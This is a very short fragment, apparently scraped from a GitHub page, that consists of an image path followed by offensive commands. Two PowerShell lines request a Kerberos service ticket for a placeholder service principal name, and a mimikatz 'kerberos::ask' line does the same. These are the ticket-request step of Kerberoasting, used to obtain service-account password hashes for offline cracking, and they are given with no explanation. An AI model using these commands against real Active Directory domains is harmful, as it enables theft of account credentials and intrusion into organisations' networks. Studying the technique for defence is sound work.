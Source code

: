 	>Add-Type -AssemblyName System.IdentityModel
	>New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "SPN"
	&
	>kerberos::ask /target:SPN
